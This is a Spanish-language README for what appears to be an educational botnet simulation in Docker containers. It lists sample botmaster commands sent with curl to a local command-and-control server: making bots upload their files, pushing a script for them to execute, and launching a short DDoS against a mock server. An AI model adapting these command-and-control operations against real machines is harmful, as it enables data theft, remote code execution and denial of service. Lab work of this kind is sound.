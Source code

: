 ## Run
1) make build-all
2) python3 compose-maker.py         //se puede configurar la cantidad de bots
3) make start-all

## Posibles instrucciones del botmaster
- Instruir a los bots a que manden un archivo suyo al server.
```bash
curl -X POST http://localhost:3000/send-command -H "Content-Type: application/json" -d '{"id": 1, "command": "Download", "name": "test1.txt", "filepath": "test_files/test1.txt", "objective": "All"}'
```

- Enviar un ejecutable a los bots y hacer que lo ejecuten.
```bash
curl -X POST http://localhost:3000/send-command -H "Content-Type: application/json" -d '{"id": 1, "command": "Exec", "name": "test1.js", "data": "#!/usr/bin/env node
console.log('Hello world picadita.md'), "objective": "All"}'
```
- Indicarle a todos los bots a hacer DDoS por 2 segundos al mocksv. Para ver el delay que genera en el servidor se puede dejar corriendo el mock-client.py que va logeando el tiempo de respuesta del mock-server.

```bash
curl -X POST http://localhost:3000/send-command -H "Content-Type: application/json" -d '{"id": 1, "command": "DDoS", "ip": "mock-server", "port": 7000, "time": 2, "objective": "All"}'
```

Nota: Los mensajes se pueden dirigir a un subset de los bots en vez de a "All", funcionalidad a mejorar. Por ahora el formato es objective="::ffff:172.28.0.4" con 172.28.0.4 la ip del container.